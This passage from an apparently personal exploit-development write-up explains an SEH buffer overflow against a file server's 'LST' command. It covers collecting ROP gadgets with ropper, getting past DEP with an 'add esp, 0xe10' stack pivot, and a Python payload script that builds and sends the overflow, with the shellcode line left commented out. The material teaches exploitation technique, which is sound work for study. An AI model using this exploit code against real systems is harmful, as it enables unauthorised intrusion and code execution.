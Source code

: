 Ok, we should collect gadgets at this point to start _ropping_, I used __ropper__, which runs on Kali, what I was using at the moment, and since we need an offset to the base address, it is important to pass the parameter __-I 0x0__ to ropper, this way the addresses will not contain the preferred base address as the base address, and we will have just the offsets.

After collecting gadgets, let's start creating our rop-chain.


Ok, but wait... This is a SEH overflow, so we cannot just go into "Mordor" and start ropping.

![](https://github.com/dplastico/dplastico.github.io/raw/main/_posts/img/2023-07-02-21-36-57.png)

If we do the regular exploit plan for SEH, which is to find a "POP POP RET" gadget, we will jump and execute the NSEH, but this is pointless since we steal have not defeated __DEP__ and we will still need to execute something, this is a "stack pivot" gadget will help us. We just need to find a gadget that allows us to move the stack pointer to another area we control in our payload.

After some exploration, at Offset 0x00011396, we'll find an "add  esp, 0xe10" I ended up using. We can create a payload to accomplish what's being discussed, like the one below.

```python
buf = b""
buf += b"XXXX"
buf += b"A"*0x68 #offset to pivot landing
buf += rop #from here, there's around 350 bytes to ROP


payload  = b""
payload += b"LST "
payload += buf
payload += b"A" * (0x408-len(buf))
payload += b"BBBB" #We have DEP, so no need to jump to NSEH
payload += p32(filesrv+0x00011396) # Stack pivot add esp, 0xe10
payload += b"\x90" * 64
#payload += shellcode
payload += b"\x90" * (0xfb0-len(payload))

r.sendline(payload)
```